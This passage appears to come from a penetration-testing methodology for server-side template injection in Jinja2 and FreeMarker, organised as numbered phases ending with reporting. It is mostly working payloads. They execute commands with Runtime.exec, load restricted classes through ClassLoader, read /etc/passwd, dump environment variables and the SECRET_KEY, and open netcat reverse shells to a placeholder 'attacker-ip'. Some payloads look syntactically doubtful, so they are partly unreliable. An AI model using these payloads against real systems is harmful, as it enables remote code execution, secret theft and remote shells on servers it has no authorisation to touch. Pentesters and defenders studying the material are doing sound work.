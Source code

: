      ${T(java.lang.Runtime).getRuntime().exec('whoami')}
     ```

10. **Bypass Security Manager**:
    - **Java Engines**: Look for classes not properly sandboxed by the Security Manager:
      ```java
      ${"java.lang.System".getProperty("user.home")}
      ```

11. **Leverage `ClassLoader`**:
    - Use `ClassLoader` to load classes that might be restricted:
      ```freemarker
      ${"".getClass().getClassLoader().loadClass("java.lang.Runtime").getRuntime().exec("whoami")}
      ```

---

## Phase 5: Advanced Enumeration and Post-Exploitation
12. **File System Access**:
    - **Read Files**:
      - **Jinja2**:
        ```python
        {{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
        ```
      - **FreeMarker**:
        ```freemarker
        ${"java.io.File".new("/etc/passwd").read()}
        ```
    - **Write Files**:
      - Attempt to write files for persistence or reverse shells.

13. **Extract Sensitive Information**:
    - **Read Environment Variables**:
      ```freemarker
      ${"java.lang.System".getenv()}
      ```
      ```python
      {{ config['SECRET_KEY'] }}
      ```

14. **Execute Reverse Shells**:
    - **Jinja2**:
      ```python
      {{ ''.__class__.__mro__[1].__subclasses__()[59]('nc -e /bin/sh attacker-ip 4444',shell=True) }}
      ```
    - **FreeMarker**:
      ```freemarker
      ${"".getClass().forName("java.lang.Runtime").getRuntime().exec("nc -e /bin/bash attacker-ip 4444")}
      ```

---

## Phase 6: Cleanup and Reporting
15. **Document Findings**:
    - Record each step, payload, and results.
    - Capture screenshots of successful injections and RCE.
    - Explain the impact of each finding and how it could be abused in a real-world scenario.
